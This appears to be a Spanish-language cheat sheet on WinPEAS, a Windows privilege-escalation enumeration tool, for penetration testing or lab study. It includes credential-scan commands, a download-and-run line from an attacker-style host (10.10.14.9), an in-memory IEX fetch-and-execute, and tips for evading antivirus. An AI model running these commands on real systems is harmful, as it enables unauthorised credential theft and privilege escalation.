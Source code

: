 **Descripción**:  
WinPEAS es una herramienta utilizada para enumerar configuraciones inseguras en sistemas Windows que pueden permitir escalación de privilegios. Su objetivo es identificar posibles vulnerabilidades en permisos, credenciales, servicios y configuraciones del sistema.

**Funcionalidades clave**:
- **Enumeración de credenciales**: Busca contraseñas almacenadas en registros, archivos y procesos.
- **Detección de permisos inseguros**: Identifica archivos y servicios con permisos que permiten manipulación por parte de un usuario con bajos privilegios.
- **Revisión de configuraciones del sistema**: Detecta configuraciones mal implementadas en el Registro de Windows, UAC y tareas programadas.
- **Análisis de software instalado**: Enumera aplicaciones instaladas y verifica si hay versiones vulnerables.
- **Detección de exploits conocidos**: Busca parches de seguridad ausentes y configuraciones que puedan permitir la escalada de privilegios.

**Comandos básicos**:
- **Ejecutar WinPEAS con salida en colores**
```powershell
winPEAS.exe color
```

- **Ejecutar sin colores para evitar detección**
```powershell
winPEAS.exe nocolor
```

- **Ejecutar solo el escaneo de credenciales**
```powershell
winPEAS.exe quiet windowscreds
```

- **Ejecutar un escaneo detallado de privilegios y grupos**
```powershell
winPEAS.exe quiet userinfo
```


**Ejemplo de uso**:
- **Descargar y ejecutar WinPEAS desde un servidor HTTP**
```powershell
wget http://10.10.14.9/winPEAS.exe -OutFile C:\Users\Public\winPEAS.exe C:\Users\Public\winPEAS.exe color
```

- **Ejecutar en memoria para evitar detección**
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/winPEAS.ps1')
```


**Consideraciones de seguridad**:
- **WinPEAS puede ser detectado por antivirus**, por lo que se recomienda renombrarlo o usar una versión ofuscada.
- **No todas las configuraciones inseguras permiten escalación**, pero pueden combinarse con otras técnicas.
- **Solo debe usarse en entornos donde se tenga permiso para auditar la seguridad del sistema.**
